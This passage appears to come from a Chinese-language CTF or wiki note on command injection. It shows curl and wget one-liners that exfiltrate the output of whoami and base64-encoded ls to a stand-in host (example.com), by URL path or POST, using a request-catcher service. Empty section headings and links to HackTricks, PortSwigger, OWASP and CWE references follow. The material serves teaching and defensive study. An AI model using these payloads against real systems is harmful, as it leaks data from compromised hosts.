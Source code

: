 [https://requestrepo.com/](https://requestrepo.com/)

```bash
# 通过URL传送
curl example.com/`whoami`
curl example.com/`ls|base64`
wget -O- example.com/`ls|base64`

# 通过POST
curl -X POST --data `ls|base64` example.com
wget --post-data "$(ls|base64)" -O- example.com
```

- 延时

## 经典赛题分析

## 参考资料

- <https://book.hacktricks.xyz/v/cn/linux-hardening/bypass-bash-restrictions>
- <https://github.com/PortSwigger/command-injection-attacker/blob/master/README.md>

- <https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html>
- <https://cwe.mitre.org/data/definitions/77.html>
- <https://paper.seebug.org/164/>
